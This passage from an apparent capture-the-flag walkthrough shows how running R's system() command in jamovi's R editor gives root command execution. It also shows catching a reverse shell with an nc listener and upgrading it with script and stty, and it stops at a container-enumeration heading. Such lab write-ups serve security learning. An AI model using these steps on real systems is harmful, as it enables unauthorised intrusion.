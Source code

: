 > analyse data in jamovi with R, and make use of your favourite R packages from within the jamovi statistical spreadsheet.

[R](https://www.r-project.org/) is a language for statistically computing. Clicking on it opens an editor:

![image-20220822131726002](https://0xdfimages.gitlab.io/img/image-20220822131726002.png)

At the bottom it says Ctrl + Shift + Enter to run.

### RCE POC

R has a built in `system` [command](https://stat.ethz.ch/R-manual/R-devel/library/base/html/system.html) to run OS commands. Just running `system("id")` doesn’t return anything, but with a bit of fiddling based on the docs, adding the `intern = TRUE` parameter returns output:

![image-20220822132004445](https://0xdfimages.gitlab.io/img/image-20220822132004445.png)

That looks like remote code execution as root.

### Shell

I’ll use a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to get a shell from here:

![image-20220822132209604](https://0xdfimages.gitlab.io/img/image-20220822132209604.png)

I’ll also upgrade the shell using the standard [trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

root@b06821bbda78:~# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@b06821bbda78:~# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
root@b06821bbda78:~# 

```

## Shell as www-data in Bolt Container

### Enumeration

#### Container
